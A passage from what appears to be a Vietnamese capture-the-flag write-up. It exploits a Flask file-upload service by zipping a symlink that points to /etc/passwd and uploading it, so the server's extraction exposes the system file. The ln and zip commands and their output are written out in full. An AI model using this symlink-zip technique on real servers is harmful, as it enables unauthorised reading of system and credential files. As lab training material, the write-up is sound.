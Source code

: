 Và cho dù ta Upload 1 file shell python thì ta cũng không thể thực thi nó vì đoạn code sau chỉ đọc nội dung của file chứ không thực thi nó:
```
@app.route("/view/<string:path>/<string:filename>")
def view(path, filename):
    try:
        file_path = os.path.join(f"{UPLOAD_DIR}/out", os.path.basename(path))
        content = open(f"{file_path}/{os.path.basename(filename)}").read()
        return content
    except:
        abort(404)
```
=> Các cách khai thác phổ thông đều đã bị chặn đứng.

Nhưng có 1 file đặc biệt khi kết hợp với file `.zip` sẽ có thể tạo ra 1 lỗ hổng để ta khai thác và đó chính là `symlink`.

<u>**Thông tin thêm:**</u> Bạn có thể tìm hiểu thêm `symlink` trên mạng.

**B2:** Ta bắt đầu tạo 1 file `symlink` trỏ tới file `/etc/passwd` và sau đó nén thành file `.zip` rồi Upload lên Server để xem liệu file `symlink` này có đọc được file `/etc/passwd` của Website không.

Đầu tiên, ta sẽ tạo file `symlink` trỏ tới file `/etc/passwd` qua lệnh:
```
$> ln -s /etc/passwd test_symlink

$> ls -la
total 12
drwxr-xr-x 2 root root 4096 Nov 18 11:14 .
drwxr-xr-x 9 root root 4096 Nov 18 08:02 ..
lrwxrwxrwx 1 root root   11 Nov 18 11:14 test_symlink -> /etc/passwd

```
Như vậy là ta đã thành công tạo 1 file `symlink` trỏ tới `/etc/passwd`, tiếp đến ta sẽ nén file `test_symlink` này thành file `.zip`:
```
$> zip -y test.zip test_symlink
  adding: test_symlink (stored 0%)

$> ls -la
total 14
drwxr-xr-x 2 root root 4096 Nov 18 11:15 .
drwxr-xr-x 9 root root 4096 Nov 18 08:02 ..
lrwxrwxrwx 1 root root   11 Nov 18 11:14 test_symlink -> /etc/passwd
-rw-r--r-- 1 root root  185 Nov 18 11:15 test.zip
```

Cuối cùng, ta sẽ Upload file `.zip` này lên Website.

Ta mở file vừa được Server giải nén ra và kết quả:

![alt text](./images/image-1.png)
